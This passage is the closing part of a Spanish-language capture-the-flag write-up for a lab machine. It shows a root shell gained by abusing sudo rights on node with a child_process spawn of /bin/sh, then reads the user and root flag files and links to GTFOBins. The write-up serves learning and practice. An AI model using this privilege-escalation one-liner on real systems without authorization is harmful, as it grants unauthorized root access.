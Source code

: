 Probémoslo:
```bash
abuela@papafrita:~$ sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
# whoami
root
# /bin/bash -i 
root@papafrita:/home/abuela#
```
Muy bien, somos **Root**.

Ya solo busquemos las flags:
```bash
root@papafrita:/home/abuela# ls
user.txt
root@papafrita:/home/abuela# cat user.txt 
...
root@papafrita:/home/abuela# cd /root
root@papafrita:~# ls
root.txt
root@papafrita:~# cat root.txt
...
```
Y con esto terminamos la máquina.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>


* https://md5decrypt.net/en/Brainfuck-translator/
* https://gtfobins.github.io/gtfobins/node/


<br>

# FIN

<footer id="myFooter">
    <!-- Footer para eliminar el botón -->
</footer>

<style>
        #backToIndex {
                display: none;
                position: fixed;
                left: 87%;
                top: 90%;
                z-index: 2000;
                background-color: #81fbf9;
                border-radius: 10px;
                border: none;
                padding: 4px 6px;
                cursor: pointer;
        }
</style>
